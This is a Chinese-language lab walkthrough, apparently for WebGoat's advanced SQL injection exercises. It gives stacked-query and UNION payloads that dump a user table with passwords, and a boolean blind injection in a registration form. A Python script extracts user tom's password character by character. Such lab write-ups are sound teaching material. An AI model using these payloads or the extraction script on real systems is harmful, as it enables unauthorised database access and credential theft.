# 1  

# 2  


# 3  
已知一个表要查另一个表的全部信息  

  

1. 直接用下面语句注入  

```  
d'; select * from user_system_data;--
```  
  

2. 使用union，前后查询的数据类型要对应  
```
d' union select userid,user_name,password,password,password,password,userid from user_system_data;--
```  

  


# 4  
介绍了盲注和基于时间的盲注。  


# 5  

要以tom的身份登录，虽然题目是大写，但实际上是小写。  

  

1. 在register界面注册tom，提示已经注册过  
  
说明在注册之前，肯会在数据库中查找是否已经存在相同的用户名，也许可以注入。  

2. 当用户名为(tom' and '1'='1)时，提示已经存在，当用户名为(tom' and '1'='2)时，提示注册好了，可以登录。  

  


说明如果查询为真，那么提示已经存在，如果为假的，那么提示创建好了。  

3. 已经知道tom是存在的，那么肯定也存了他的密码，那么要看密码是用什么名字存的，用以下方式注入  
```
tom' and password is not null--
```  
存密码不一定使用password，也可能是别的名字。这里就是password，并且提示已经存在了。如果没猜对，可以尝试字典爆破。  

4. 可以尝试爆破出密码的长度  
  
发送后抓请求,设置payload，爆破，我设置从1到50  
  
然后给响应大小排序，找到爆破结果，密码长度23  
  

5. 接下来可以去爆破密码的每一位,就是将密码的每一位都取出，然后看是什么字符，比如注入substring(password,1,1)=a，看响应的结果判断第一位是不是a，同理其他字母比较，一但是真就确定了这一位,执行下面脚本可以爆破出密码,我是参考了别人的脚本。如果是真，会返回"already exists please",如果找到这个字符就说明找到了当前位的字符，用res.text.find()函数来查找字符。  
```python
import requests
str_list = [chr(i) for i in range(97,123)]

url = "http://192.168.88.1:8080/WebGoat/SqlInjectionAdvanced/challenge"

password = ""
for i in range(1,24):
    for s in str_list:
        putdata =f"username_reg=tom' and substring(password,{i},1)='{s}'-- &email_reg=tom%40tom.com&password_reg=123&confirm_password_reg=123"
        headers = {"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8","Origin":"http://192.168.88.1:8080","Accept-Encoding":"gzip, deflate","Cookie":"JSESSIONID=-6nOkXrcqqrouZwvlF8DpW7jzUOa6HtYvse2vugP","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36","Accept-Language":"zh-CN,zh;q=0.9","Referer":"http://192.168.88.1:8080/WebGoat/start.mvc?username=webgoat"}
        res = requests.put(url,putdata,headers=headers)
        resp = res.text.find("already exists please")
        if resp != -1:
            password += s
            continue


print(password)
```  



